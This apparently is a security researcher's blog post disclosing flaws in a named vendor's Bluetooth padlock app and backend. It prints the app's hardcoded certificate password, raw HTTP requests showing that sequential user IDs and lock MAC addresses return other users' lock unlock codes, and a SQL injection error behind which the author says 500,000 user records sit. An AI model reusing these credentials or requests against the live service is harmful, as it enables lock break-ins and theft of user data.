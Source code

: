 ```yaml
---
title: The weired BLE-Lock
layout: post
type: blog
updated: 2022-11-03T10:54:55+01:00
created: 2022-07-20T21:03:47+02:00
permalink: the-weired-ble-lock
published: true
---
```


**tl;dr;** My knowledge in Bluetooth LE Communication got quite rusty over time and i wanted to refresh it with an easy target the other day. I wanted to open up the lock with a simple bluetooth command but ended up having access to their entire backend database with a lot of unique users across their entire product lineup.

It didn't go as planned.

## The Lock and API
As all BLE-Locks work, they require an App to talk to the Lock itself and an API on the company side.

I loaded the application into my trusted rooted android phone and started proxien all requests through Burp to look for API clues how this communication works.

Unfortunately the communication didn't work first time, because the server required a client certificate to authenticate against the webserver.

The certificates were found pretty fast in the ressources directory. But the `pkcs12` still needed a password i had to comb through the binary for.

After some digging, i found the method `C0015b` which loads the TrustManager and loads the PKCS12 files with a Password `daqitech2017` into the Keystore.

Password in file: `/c/g/a/a/m/b.java`

```java
public static C0015b c(Context context) {
    X509TrustManager x509TrustManager;
    C0015b bVar = new C0015b();
    InputStream openRawResource = context.getResources().openRawResource(g.server_pwd);
    InputStream openRawResource2 = context.getResources().openRawResource(g.client_pwd);
    try {
        SSLContext sSLContext = SSLContext.getInstance("TLS");
        KeyStore keyStore = KeyStore.getInstance("PKCS12");
        KeyStore keyStore2 = KeyStore.getInstance("PKCS12");
        keyStore.load(openRawResource, "daqitech2017".toCharArray());
        keyStore2.load(openRawResource2, "daqitech2017".toCharArray());
```

Heureka, the password was found and i was able to include the certificate into burp.

![]({{site.baseurl}}/img/posts/2022/Pasted image 20221103195341.png)

### Login
After a registration and login request is was time to observe the communication of the app to the backend servers.

```
https://[redacted]/?m=lock&a=getLockInfoByMac
https://[redacted]/?m=share&a=getFaceUrl
https://[redacted]/?m=Socket&a=lockList
https://[redacted]/?m=sts&a=oss_params
https://[redacted]/?m=user&a=register
```

The whole communication relies quite heavily on `POST` requests with `GET` parameter determining some kind of module (Parameter: `m`) and a subcommand (Parameter: `a`). It was way more interesting to look into the `POST`-Parameter.

After a successful login a `loginToken` is being transfered to keep for safekeeping. It is needed in every request, but only for validity and not content access, as we discover later.

```http
POST /?m=user&a=login HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Host: [redacted]
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

user\_name=nuitgaspard&user\_pwd=[redacted]&type=2&way=2&message_lang=en-us

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 03 Aug 2022 19:33:55 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 268

{"state":"success","type":0,"desc":"接口操作成功","id":"508492","email":"","loginToken":"25cba956d908[...redacted...]","avatarPath":"","level":"0","mobile":null,"nickname":"nuitgaspard","loginName":"nuitgaspard","way":"2","bucket\_name":null,"end\_point":null}
```


## Who are you, and what locks do you command?

If we look closely on the request to get a locklist (`m=Socket&a=locklist`), a user es defined with the `POST` parameter `user_id`. This ID seems to be a normal counter.

You can basically run over all 50k UserIDs and get every user having an Account.

```http
POST /?m=Socket&a=lockList HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Host: [redacted]
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

loginToken=1eb8bbfa1c[...redacted....]&type=2&cp=el&user_id=508486&page=1
```

The following Response does not show my User. It is user `508486`

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 03 Aug 2022 20:03:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 792

{"state":"success","type":0,"desc":"接口操作成功","data":[{"mac":"A4:C1:38:22:0A:33","isMaster":0,"masterId":506827,"masterName":"innovatekink","shareType":1,"time_zone":"+02:00","shareLockTimeArray":[{"startTime":"00:00","enable":1,"endTime":"23:59","repeat":127},{"startTime":"00:00","enable":0,"endTime":"23:59","repeat":127},{"startTime":"00:00","enable":0,"endTime":"23:59","repeat":127}],"shareLockTime":0,"name":"Riri","password":"861226","admin_password":"861226","fgpSup":1,"protocolVersion":"7","fwVersion":"1.30.5.0","preLoseSup":0,"preLose":0,"backAdvSup":0,"backAdv":0,"locationSetup":1,"alarmSup":0,"alarmState":0,"order_type":0,"fg_num":2,"last_open_user":"kinkysexboy","last_time":"2022-07-21 01:31:55","last_timeUTC":"2022-07-20 17:31:55","admin_name":"innovatekink"}]}
```

If you look closely on the Response, you can even spot the password of the lock, which get's send by BLE. 

I thought to myself. NICE! I can now open every lock they have. 

So i looked on, if i can find a better function to get informations about a specific lock.

## Sesam open: one request for every lock
There is a function called `getLockInfoByMac`,  which the mac address of this lock a `POST` Argument and gets back with all information about lock.

```http
POST /?m=lock&a=getLockInfoByMac HTTP/1.1
Host: [redacted]
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

mac=A4%3aC1%3a38%3a21%3a7F%3aD0&loginToken=92103907b8e0717e4bdf46bda3324932&type=1&cp=&isBind=0

-----

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 24 Nov 2022 08:37:09 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 188

{"state":"success","type":0,"desc":"接口操作成功","data":{"name":"lock","mac":"A4:C1:38:21:7F:D0","isBind":1,"password":"475029","reset":1,"lock_status":1,"admin_password":"475029"}}
```

We now have a method to lookup every lock in existence. I take the assumptions, they are nice people and respect the first 3 bytes of the Mac-Address to be a Vendor Identifier, we "only" have to crawl for `255*255*255` possibilities.

But something weired popped up.

![]({{site.baseurl}}/img/posts/2022/Pasted image 20221124094309.png)

## It was at that moment, they knew, they fucked up
I usually do my whole shennanigans with APIs with Burp. My Burp configuration does automatic checks with single or double quotes on every parameter.

Adding a single and double quote (yes you need both) at the `mac` parameter produces an interesting output:

```
{"state":"fail","type":1,"desc":"\"SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\\\"' at line 1\""}
```

Uiuiuiuiui....that doesn't look good. 

After poking around in the potential SQLi, i found a working reliable exploit and looked at the impact. There are around 180 Tables. This does not only affect the lock Product line. As i suspected from the first argument in the `GET` parameter, the API is used by other products like cameras and so on, as well.

| Table             | Entries |
| ----------------- | ------- |
| users             | 502244  |
| apple_pay_receipt | 1514    |
| camera_user       | 99955   |


This is a  major impact on these devices coming from a 20 Euro Bluetooth Lock.

# Disclosure Timeline

- 26 July: Asking for Security Contact
- 28 August: Asking again for security contact
- Release date of this Blog post: Sent them this Blogpost.

# Fazit
If you own something from `https://www.elinksmart.net/`, consider your password compromised and locks/cameras/etc not secure.

# References:

* https://www.youtube.com/watch?v=AIaFleFMPn0 - LockPickingLawyer
* https://www.lockhacking.com/2022/05/24/elinksmart-padlock-cracked.html
